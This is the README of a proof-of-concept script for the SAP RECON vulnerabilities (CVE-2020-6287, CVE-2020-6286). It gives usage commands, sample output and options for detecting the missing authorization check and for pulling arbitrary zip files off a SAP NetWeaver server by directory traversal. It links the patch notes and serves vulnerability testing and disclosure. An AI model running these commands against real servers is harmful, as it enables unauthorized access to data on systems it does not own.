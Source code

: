 PoC for CVE-2020-6287, CVE-2020-6286 (SAP RECON vulnerability)

~~Pffff! RECON (Remotely Exploitable Code On NetWeaver)? Guys, really? That was the best codename you came up with? :)~~ 

This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and as a PoC script exploits directory traversal in `queryProtocol` method.

Directory traversal allows to download any `zip` from SAP server.

***This PoC doesn't provide RCE/user creation functionality.<br>This project is created only for educational purposes and cannot be used for law violation or personal gain.
<br>The author of this project is not responsible for any possible harm caused by the materials of this project***

Original finding: [Pablo Artuso](https://twitter.com/lmkalg)

Solution: [#2934135](https://launchpad.support.sap.com/#/notes/2934135), [#2939665](https://launchpad.support.sap.com/#/notes/2939665)



# How to use


Just point SAP NW AS Java hostnmae/ip.

There is additional options:

1. `-c` - check if SAP server is vulnerable to RECON
2. `-f` - download `zip` file from SAP server


Ex.:

```
~python RECON.py -H 172.16.30.8 -f /1111.zip
Check1 - Vulnerable! - http://172.16.30.8:50000/CTCWebService/CTCWebServiceBean
Ok! File zipfile_929.zip was saved
```

## All options


```
~python RECON.py -h
usage: RECON.py [-h] [-H HOST] [-P PORT] [-s] [-c] [-f ZIPFILE]
                [--timeout TIMEOUT] [-v]

PoC for CVE-2020-6287, CVE-2020-6286 (RECON)
This scrip allows to check SAP LM Configuration Wizard missing authorization check vulnerability and exploits dir traversal in queryProtocol method
Original finding: Pablo Artuso. https://twitter.com/lmkalg
Solution: https://launchpad.support.sap.com/#/notes/2934135, https://launchpad.support.sap.com/#/notes/2939665

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST  Java NW host (default: 127.0.0.1)
  -P PORT, --port PORT  Java NW web port (default: tcp/50000)
  -s, --ssl             enable SSL
  -c, --check           just detect vulnerability
  -f ZIPFILE, --zipfile ZIPFILE
                        ZIP file to read. CVE-2020-6286
  --timeout TIMEOUT     HTTP connection timeout in second (default: 10)
  -v, --verbose         verbose mode
```